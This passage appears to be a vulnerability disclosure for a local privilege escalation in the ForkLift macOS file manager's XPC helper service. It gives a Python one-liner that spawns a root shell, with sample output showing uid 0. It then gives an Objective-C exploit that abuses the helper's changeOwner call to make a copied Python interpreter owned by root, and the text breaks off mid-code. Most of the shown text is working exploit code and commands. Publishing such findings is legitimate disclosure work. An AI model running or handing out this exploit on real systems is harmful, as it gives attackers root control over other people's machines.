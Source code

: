 The following command will spawn a shell as root:
```
$/tmp/python_copied -c 'import pty; import os; os.setuid(0);pty.spawn("/bin/bash")'
# id
uid=0(root) [...]
```


### Full Exploit

Please make sure to first have a python interpreter copied to ``/tmp`` with the name ``python_copied``.
The following exploit displays this LPE:

```c
//
//  main.m
//  build
//  gcc -framework Foundation exploit.m -o exploit
//  
//

#import <Foundation/Foundation.h>

static NSString* kXPCHelperMachServiceName = @"com.binarynights.ForkLiftHelper";

// The protocol that Forklift will vend as its XPC API.
@protocol _TtP4main21ForkLiftHelperProtcol_
- (void)changePermissions:(NSString *)arg1 permissions:(long long)arg2 reply:(void (^)(NSError *))arg3;
- (void)changeOwner:(NSString *)arg1 owner:(long long)arg2 group:(long long)arg3 reply:(void (^)(NSError *))arg4;
- (void)calculateDirectorySize:(NSString *)arg1 reply:(void (^)(NSNumber *, NSError *))arg2;
- (void)createDirectory:(NSString *)arg1 reply:(void (^)(NSError *))arg2;
- (void)deleteItem:(NSString *)arg1 reply:(void (^)(NSError *))arg2;
- (void)moveItem:(NSString *)arg1 targetPath:(NSString *)arg2 reply:(void (^)(NSError *))arg3;
- (void)copyItemAbort:(NSString *)arg1;
- (void)copyItemProgress:(NSString *)arg1 reply:(void (^)(NSNumber *, NSError *))arg2;
- (void)copyItem:(NSString *)arg1 targetPath:(NSString *)arg2 UUID:(NSString *)arg3 reply:(void (^)(NSError *))arg4;
- (void)moveToTrash:(NSString *)arg1 reply:(void (^)(NSError *))arg2;
- (void)getHelperVersion:(void (^)(NSString *))arg1;
@end

int main(int argc, const char * argv[]) {
    @autoreleasepool {
        
        NSString*  _serviceName = kXPCHelperMachServiceName;

        NSXPCConnection* _agentConnection = [[NSXPCConnection alloc] initWithMachServiceName:_serviceName options:4096];
        [_agentConnection setRemoteObjectInterface:[NSXPCInterface interfaceWithProtocol:@protocol(_TtP4main21ForkLiftHelperProtcol_)]];
        [_agentConnection resume];

        //        run user script as root/
        [[_agentConnection remoteObjectProxyWithErrorHandler:^(NSError* error) {
            (void)error;
            NSLog(@"Connection Failure");
        }] changeOwner:@"/tmp/python_copied" owner:0 group:0 reply:^(NSError * err){
            NSLog(@"Reply, %@", err);
        }];
        [[_agentConnection remoteObjectProxyWithErrorHandler:^(NSError* error) {
            (void)error;
            NSLog(@"Connection Failure");
```